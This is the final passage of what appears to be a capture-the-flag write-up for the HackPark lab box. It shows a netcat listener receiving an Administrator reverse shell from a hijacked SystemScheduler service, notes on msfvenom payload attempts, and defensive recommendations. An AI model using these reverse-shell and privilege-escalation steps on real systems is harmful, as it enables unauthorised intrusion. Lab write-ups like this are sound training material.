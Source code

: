 After thirty seconds or so, the service executes the `Message.exe` payload and the shell connects : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/hackpark]
└─$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.251.96] 49238
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>echo %username%
echo %username%
Administrator
```

The user flag is at `C:\Users\jeff\Desktop\user.txt`. The root flag is at `C:\Users\Administrator\Desktop\root.txt`.

## 5. Bonus : shell upgrade skip, rdp dead end, System Scheduler CVE

* We should be able to upload an arbitrary payload during the initial exploit, skipping the shell upgrade step. For whatever reason, my attemps at wrapping an asp / aspx / aspx-exe / C# msfvenom payload in the BlogEngine .aspx template provided in `aspx/webapps/46353.cs` never worked out - in some cases I was able to catch the reverse shell connection in metasploit, but the session died immediately. This should be doable relatively easily, but I don't know enough .NET / C# to find whatever the errror is. 
* Our original nmap scan found an RDP server on the machine that wasn't required during the exploit. I wasn't able to connect with the known user/credential pairs, but I didn't try to brute force the login - this may be a red herring intended to make the box more realistic, or a testing artefact.
* A [recent CVE highlights the same directory permissions misconfiguration](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31771) in the most recent version of SystemScheduler - the CVE ID was attributed in March 2021, and the latest update to the SystemScheduler site was made in January 2021...

## 6. Summary and Solutions

* **Password Policy** : The admin access required to perform the exploit relied on a bruteforceable password. Enforcing minimum entropy password policies would prevent realistic bruteforcing - if your users respect them...
* **Unlimited failed logins** : Password bruteforcing relies on making an unlimited number of failed login requests ; after a certain number of failed login attemps, subsequent attempts from the same IP should be blocked for a certain period. 
* **Known vulnerabilities** : The BlogEngine CVE was published in March 2019 - at this point, the vulnerability in 3.3.6 has been known for over 2 years. Unfortunately, the [News section of BlogEngine's own website](https://blogengine.io/news/) has no mention of the vulnerability or the criticality of the 3.3.6 -> 3.3.7 upgdrade. Threat intelligence is key here - if a critical vulnerability was found in a technology in your stack, how would you find about it?
* **Auditing of third-party software** : Whilst the SystemScheduler CVE was only published recently, the vulnerability is not particularly difficult to discover. Sometimes we will need third-party software to run with elevated privileges, but in these situations we should take a more proactive approach to software auditing and vulnerability detection. This doesn't have to mean decompiling every binary bundled with the application - in this case, running a vulnerability scanner on the host following the installtion of SystemScheduler would have found the vulnerability.
